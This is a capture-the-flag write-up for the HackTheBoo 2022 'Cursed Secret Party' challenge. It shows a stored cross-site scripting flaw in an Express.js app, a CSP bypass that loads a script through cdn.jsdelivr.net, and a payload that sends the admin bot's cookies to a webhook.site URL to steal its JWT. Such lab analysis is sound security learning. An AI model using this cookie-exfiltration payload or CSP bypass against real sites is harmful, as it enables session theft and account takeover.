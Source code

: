 ## Challenge Description
You've just received an invitation to a party. Authorities have reported that the party is cursed, and the guests are trapped in a never-ending unsolvable murder mystery party. Can you investigate further and try to save everyone?

## Solution
Downloading the provided files and unzipping them, we have the source code of an application built with `Express.js`.

In `routes/index.js`, we see that there are two routes `/api/submit` and `/admin.`

```javascript
┌──(darshan㉿kali)-[~/…/HacktheBoo-ctf-2022/Cursed-secret-party/web_cursed_party/challenge]
└─$ cat routes/index.js      
const express = require('express');
const router = express.Router({ caseSensitive: true });
const AuthMiddleware = require('../middleware/AuthMiddleware');
const bot = require('../bot');

let db;

const response = data => ({ message: data });

router.get('/', (req, res) => {
    return res.render('index.html');
});

router.post('/api/submit', (req, res) => {
    const { halloween_name, email, costume_type, trick_or_treat } = req.body;

    if (halloween_name && email && costume_type && trick_or_treat) {

        return db.party_request_add(halloween_name, email, costume_type, trick_or_treat)
            .then(() => {
                res.send(response('Your request will be reviewed by our team!'));

                bot.visit();
            })
            .catch(() => res.send(response('Something Went Wrong!')));
    }

    return res.status(401).send(response('Please fill out all the required fields!'));
});

router.get('/admin', AuthMiddleware, (req, res) => {
    if (req.user.user_role !== 'admin') {
        return res.status(401).send(response('Unautorized!'));
    }

    return db.get_party_requests()
        .then((data) => {
            res.render('admin.html', { requests: data });
        });
});

router.get('/admin/delete_all', AuthMiddleware, (req, res) => {
    if (req.user.user_role !== 'admin') {
        return res.status(401).send(response('Unautorized!'));
    }
    
    return db.remove_requests()
            .then(() => res.send(response('All records are deleted!')));
})

module.exports = database => {
    db = database;
    return router;
};  
```

And this is what the web application looks like.

![cps-2](https://user-images.githubusercontent.com/87711310/211354800-c5d19cf0-0a2c-4dcc-846e-a7f671d671e1.png)

We can submit the details on the web page and it issues the following HTTP request.

```BurpSuite
POST /api/submit HTTP/1.1
Host: 167.71.138.188:32102
Content-Length: 190
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://167.71.138.188:32102
Referer: http://167.71.138.188:32102/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
 
{
    "halloween_name": "test",
    "email": "test@test.com",
    "costume_type": "monster",
    "trick_or_treat": "tricks"
}

```

Once the request is submitted, we get the following message.
```
Your request will be reviewed by our team! 
```

So it seems like, there's a `bot` running in the background which would visit the `/admin` route and view our submitted data. The `/admin` endpoint pulls all the submitted requests from the database and then renders them in the `admin.html` template.

```javascript
router.get('/admin', AuthMiddleware, (req, res) => {
    if (req.user.user_role !== 'admin') {
        return res.status(401).send(response('Unautorized!'));
    }

    return db.get_party_requests()
        .then((data) => {
            res.render('admin.html', { requests: data });
        });
});
```

However, in `admin.html`, we see a problem.

![cps-3](https://user-images.githubusercontent.com/87711310/211361076-d4ba1cf9-fefb-4902-bdc0-baccb0b03606.png)

When it outputs the `halloween_name` input parameter, it marks it as safe. Which means that it would not escape it to prevent `Cross-Site scripting` attacks.

So, now we have a stored `Cross-Site scripting` vulnerability, and a bot would view it with the permissions of an `admin` user. Let's see what this bot is and how it works.

![cps-4](https://user-images.githubusercontent.com/87711310/211361436-11d06367-eb9d-438a-8613-551d15b06e32.png)

We see that the bot authenticates as an administrator by setting an `admin JWT token` in the cookie. And the payload of this JWT token has the `flag`. Then it visits the endpoint `/admin` to view all the submitted requests and then it deletes them all by visiting the `/admin/delete_all` endpoint.

All we need to do is steal the cookies of the bot user by exploiting the stored `Cross-Site scripting` vulnerability to get the flag. This is fairly easy. Or is it?

Reviewing the `index.js` file I found one catch. The application sets a strict `Content-Security-Policy` header.

```javascript
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});
```

This can be very troublesome. Any browser visiting this web application would look at the `script-src` directive of the CSP header and decide which JavaScript is safe to load and which is not. For example, any inline injected JavaScript code would not get executed because there's no `inline` parameter in the `script-src` directive. It won't load any JavaScript hosted on the attacker's domain either.

The only allowed parameters in the `script-src` directive are self and `https://cdn.jsdelivr.net`. The self parameter means that the JavaScript `files hosted under the same domain as of the application` are safe to load. `The https://cdn.jsdelivr.net` parameter means that any JavaScript files hosted on `https://cdn.jsdelivr.net` are also safe to load.

The problem with this policy is that literally anyone can host `JavaScript` files on `https://cdn.jsdelivr.net`. To host your JavaScript files on `https://cdn.jsdelivr.net`, simply create a public GitHub repository and host your JavaScript files in there. Then you can format the `https://cdn.jsdelivr.net` in a way that it would dynamically pull the JavaScript file from your GitHub repository. The format of the `https://cdn.jsdelivr.net` should be as follows:

```
https://cdn.jsdelivr.net/gh/<github_username>/<repository_name>/<file_name>.js
```

In my case, I created a [public GitHub repository](https://github.com/darshannn10/cursed-web-party-payload/blob/main/xss-poc.js) and hosted a file xss-poc.js in there. So for me, this is what the URL looks like:

```
https://cdn.jsdelivr.net/gh/darshannn10/cursed-web-party-payload/xss-poc.js
```

This `xss.poc` gets the cookies and submits them to my [webhook.site](https://webhook.site/).
```javascript
var i = new Image;i.src="https://webhook.site/70c3e906-3fe0-46de-95f9-045b725a9d6b"+document.cookie;
```

Next, I inject the following payload in the `halloween_name` parameter in the `/api/submit` request which first closes the div tag and then add our script from the github.

```
</div><script src=\"https://cdn.jsdelivr.net/gh/darshannn10/cursed-web-party-payload/xss-poc.js\"></script>
```

![cwp](https://user-images.githubusercontent.com/87711310/213440655-d0e9d878-2a78-4f32-963d-2b832dd27cda.png)

After I sent the request, I immediately got the query strings on my webhook client which contained cookie values.

![cwp-1](https://user-images.githubusercontent.com/87711310/213442351-708d2b79-6c0d-4de5-98fb-eb09fba25e40.png)

Decoding the admin JWT, we get the flag.
![cwp-2](https://user-images.githubusercontent.com/87711310/213442345-a1ec79f7-dcec-4d6f-a5f2-ad0ae1df8e90.png)
